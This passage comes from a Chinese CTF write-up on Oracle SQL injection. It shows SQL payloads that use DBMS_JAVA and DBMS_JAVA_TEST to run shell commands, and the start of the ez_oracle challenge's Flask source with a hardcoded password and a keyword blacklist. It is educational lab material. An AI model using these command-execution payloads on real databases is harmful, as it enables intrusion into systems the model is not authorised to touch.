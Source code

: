 ```plain
-- 11g
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper touch /tmp/success') FROM DUAL;

-- 10g/11g, 注意 10g 中还需要 readFileDescriptor 和 writeFileDescriptor
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/sbin/ifconfig>/tmp/1.txt') FROM DUAL;
```

当然这几种我都无法实现

[![](assets/1709112088-fbfa35c48cce9d355ea4c1a7337ca8ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101220-cdd09900-d5de-1.png)

提示没有 wrapper 类，说明还是少了什么文件的。

# \[京麒 CTF 2023\] ez\_oracle

参考：[https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez\_oracle-writeup/#ez\_oracle](https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez_oracle-writeup/#ez_oracle)

```plain
import logging

import oracledb
from flask import Flask, request
import socket

app = Flask(__name__)
username = "system"
password = "PaAasSSsSwoRrRDd"
ol_server = "127.0.0.1"
ol_port = 1521
sid = "orcl"
dsn = "{}:{}/{}".format(ol_server, ol_port, sid)
logging.basicConfig(level=logging.INFO, filename='/var/log/web.log', format='%(asctime)s %(message)s')


def check(sql):
    blacklist = ["select", "insert", "delete", "update", "table", "user", "drop", "alert", "procedure", "exec",
                 "open", ":=", "declare", "runtime", "process", "invoke", "newinstance", "parse",
                 ".class", "loader", "script", "url", "xml", "method", "field", "reflect", "defineclass",
                 "getclass", "forname", "constructor", "transform", "sql", "beans", ".net", "http", ".rmi", "naming"
                 ]
    sql = sql.lower()
    for blackword in blacklist:
```